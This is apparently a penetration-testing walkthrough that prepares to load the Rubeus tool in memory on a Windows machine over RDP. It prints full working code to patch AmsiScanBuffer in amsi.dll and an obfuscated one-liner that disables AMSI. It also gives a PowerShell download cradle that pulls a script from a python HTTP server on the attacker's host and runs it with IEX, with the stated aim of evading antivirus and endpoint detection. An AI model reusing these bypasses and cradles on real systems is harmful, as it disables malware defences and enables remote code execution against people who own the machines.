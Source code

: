 `https://github.com/r3motecontrol/Ghostpack-CompiledBinaries`

Prepare the ANSI bypass file, by creating a text document and pasting the following:

```txt
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

In the folder with the two files, start a python server:

`python3 -m http.server 8080`

Now, use the AMSI bypass in the rdp session:

`$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)`

`(new-object system.net.webclient).downloadstring('http://10.4.10.99:8080/amsi_rmouse.txt')|IEX`

![](../../../../images/Pasted_image_20250113114737.png)

In order to avoid the possibility of being detected by antivirus or any endpoint detection tools, let's execute Rubeus from memory, instead of writing the executable file to disk.
